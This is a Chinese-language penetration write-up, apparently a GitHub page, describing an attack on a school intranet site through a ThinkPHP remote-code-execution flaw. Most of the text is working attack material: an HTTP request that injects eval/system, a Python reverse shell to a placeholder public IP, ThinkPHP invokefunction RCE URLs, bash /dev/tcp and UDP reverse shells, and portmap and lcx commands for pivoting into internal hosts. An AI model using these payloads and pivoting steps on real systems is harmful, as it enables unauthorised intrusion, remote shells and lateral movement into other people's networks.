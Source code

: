 # 记一次简单的渗透
> 目标：学校内网中某存在tp代码执行漏洞的网站

## 大致过程

获取网站的相关信息 `whatweb -v http://123.123.123.123`
发现是tp网站

测试老版本的命令执行，这里用了一个python弹shell的方法
```
POST /index.php/module/action/paraml/${@eval(system($_POST[id]))} HTTP/1.1
Host: 123.123.123.123
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://123.123.123.123/index.php/Public/login
Content-Length: 251
Cookie: PHPSESSID=5luqtvskv0hs76hvl7irk7qq25; uid=0h4BjFysIcDBKBepA2zJAg==
Connection: close 	
d
id=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('公网IP',公网端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" >>/tmp/ccKnfdf.c
```
```
附上新的命令执行payload
http:/localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1

附上bash直接反弹shell，一开始没重定向到文件所以失败了，然后我换了python的脚本才发现是重定向的问题
bash -i >& /dev/tcp/公网IP/公网端口 0>&1

另附udp反弹shell脚本：
#!/bin/bash 
exec 3>/dev/udp/127.0.0.1/8080
exec 2>&3 
exec 1>&3 
echo Welcom back 
cat 3 | bash | while read line;do echo $line;done
此时：nc监听指定-u参数
```

然后可以利用这个做跳板，进而破解内网主机的一些端口

编译portmap（或者将其再类似系统上编译好了直接传到目标机器上也可以）
将内网的某主机端口抓发到公网（其实我这个环境没必要，但是练练技术）

```
portmap --help
bkbll的套接字数据传输工具（bkbll@cnhonker.net）
用法：./portmap -m method [-h1 host1] -p1 port1 [-h2 host2] -p2 port2 [-v] [-log filename]
 -v：version
 -h1：host1 
 -h2：host2 
 -p1：port1 
 -p2：port2 
 -log：记录数据
 -m：此工具的操作方法
    1：侦听PORT1并连接到HOST2：PORT2 #将内网中的h2的p2转发到处于内网的本机的p1端口
    2：侦听PORT1和PORT2 #本地端口转发
    3：连接到HOST1：PORT1和HOST2：PORT2  #将内网中的h2的p2端口转发到公网
让我退出......全部超过

E:\Desktop>lcx.exe --help
第一条和第三配合使用。如在本机上监听 -listen 51 3389，在肉鸡上运行-slave 本机ip 51 肉鸡ip 3389
那么在本地连127.0.1就可以连肉鸡的3389.第二条是本机转向。如-tran 51 127.0.0.1 3389 ==========

[Usage of Packet Transmit:]
  lcx.exe -<listen|tran|slave> <option> [-log logfile]

[option:]
  -listen <ConnectPort> <TransmitPort>
  -tran   <ConnectPort> <TransmitHost> <TransmitPort>
  -slave  <ConnectHost> <ConnectPort> <TransmitHost> <TransmitPort>
# lcx命令类似 顺序不相同
```
目标机上的抓发命令`./portmap -m 3 -h1 公网IP -p1 公网端口 -h2 123.123.123.124 -p2 22`  

公网服务器上进行接收`./portmap -m 2 -p1 6666 -p2 443`

此时连接ssh root@45.76.101.190 -p 443 就是相当于连接123.123.123.124的22（ssh）  
**这里面的h2不一定是目标机，只要目标机能访问到的内网资源都可以被转发**